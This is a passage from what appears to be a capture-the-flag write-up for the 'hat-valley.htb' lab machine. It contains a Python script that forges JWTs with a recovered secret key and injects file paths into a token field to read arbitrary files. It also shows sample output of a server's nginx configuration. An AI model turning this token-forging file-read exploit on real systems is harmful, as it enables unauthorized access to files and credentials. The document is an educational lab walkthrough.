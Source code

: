 Now that we have the password, let's create a quick script to encrypt the tokens required.

```python
import requests
import jwt

def gen_token(file):
	encoded_data = jwt.encode(payload = {"username":f"/' {file} '"}, key ='123beany123', algorithm='HS256')
	return encoded_data
def read(file):
	token = gen_token(file)
	try:
		url = 'http://hat-valley.htb/api/all-leave'
		cookie = {"token":f"{token}"}
		r = requests.get(url, cookies=cookie)
		if (r.status_code == 200):
			print(r.text)
	except Exception as e:
		print(f"[-] LFI Error: {e}.")

def main():
	while True:
		file = input("File: ")
		read(file)

if __name__ == "__main__":
	main()
```

This works:

<figure><img src="../../../.gitbook/assets/image (27) (2).png" alt=""><figcaption></figcaption></figure>

Now that we have easy LFI, we can enumerate some possible files:

```
File: /etc/nginx/sites-enabled/store.conf
server {
    listen       80;
    server_name  store.hat-valley.htb;
    root /var/www/store;

    location / {
        index index.php index.html index.htm;
    }
    # pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
    #
    location ~ /cart/.*\.php$ {
        return 403;
    }
    location ~ /product-details/.*\.php$ {
        return 403;
    }
    location ~ \.php$ {
        auth_basic "Restricted";
        auth_basic_user_file /etc/nginx/conf.d/.htpasswd;
```